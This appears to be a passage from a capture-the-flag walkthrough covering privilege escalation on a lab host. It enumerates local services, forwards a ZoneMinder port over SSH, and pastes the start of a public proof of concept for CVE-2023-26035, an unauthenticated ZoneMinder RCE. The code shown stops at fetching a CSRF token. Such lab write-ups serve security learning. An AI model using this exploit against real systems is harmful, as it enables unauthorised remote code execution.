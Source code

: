 ## 4: Priv esc
<br/><br/>
- We check active connections with
<br/><br/>
```bash
netstat -natu -nltp
```
<br/><br/>
There is something running locally
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_8.png' | relative_url }})
<br/><br/>
We go to /etc/nignx/sites-enable and cat zoneminder.conf
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_9.png' | relative_url }})
<br/><br/>
There is a zoneminder service running that is a monitored technology lets port fowarding with ssh
<br/><br/>
```bash
ssh -L port:ip:port
```
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_10.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_11.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_12.png' | relative_url }})
<br/><br/>
Info about zoneminder versions, lets look for some vulnerability
<br/><br/>
(CVE-202326035) POC 
<br/><br/>
```bash
import re
import requests
from bs4 import BeautifulSoup
import argparse
import base64

# CVE-2023-26035 - Unauthenticated RCE in ZoneMinder Snapshots
# Author : Ravindu Wickramasinghe | rvz (@RVIZX9)

class ZoneMinderExploit:
    def __init__(self, target_uri):
        self.target_uri = target_uri
        self.csrf_magic = None

    def fetch_csrf_token(self):
        print("[>] fetching csrt token")
        response = requests.get(self.target_uri)
        self.csrf_magic = self.get_csrf_magic(response)
        if response.status_code == 200 and re.match(r'^key:[a-f0-9]{40},\d+', self.csrf_magic):
            print(f"[>] recieved the token: {self.csrf_magic}")
            return True
        print("[!] unable to fetch or parse token.")
        return False

    def get_csrf_magic(self, response):
        return BeautifulSoup(response.text, 'html.parser').find('input', {'name': '__csrf_magic'}).get('value', None)
```